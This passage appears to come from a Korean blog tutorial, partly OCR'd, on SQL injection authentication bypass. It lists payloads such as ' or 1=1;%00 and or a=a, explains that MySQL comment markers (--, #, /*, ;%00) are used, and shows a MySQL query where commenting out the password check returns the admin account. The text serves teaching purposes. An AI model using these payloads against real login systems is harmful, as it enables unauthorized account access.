 OR 1=1/*

'or 1=1/"



"or 1=1/" 

or 1=1;%00

' or 1=1;%00 

"or 1=1;%00

'or '

'or

'or'-

'or -

or a=a

하아하아 너무 많아서 다 못적어요 아 저기서 -- 와 # 과 ;%00 그리고 /*는 MySQL에서 주석을 뜻합니다.

쿼리문에서 주석을사용하면 이렇게 됩니다.

mysql> select * from member where ID='admin'#'' AND PW='fsdfsd';

    -> ;

+-------+----------+

| ID    | PW       |

+-------+----------+

| admin | P@ssw0rd |

+-------+----------+

1 row in set (0.00 sec)


ID는 admin인데 뒤에 PW를 비교하는 부분을 주석처리해서 전부 무효화 시켜버리니 로그인에 성공하겠죠. 하핳

다음 글은 다음에 쓸게요 그럼 20000



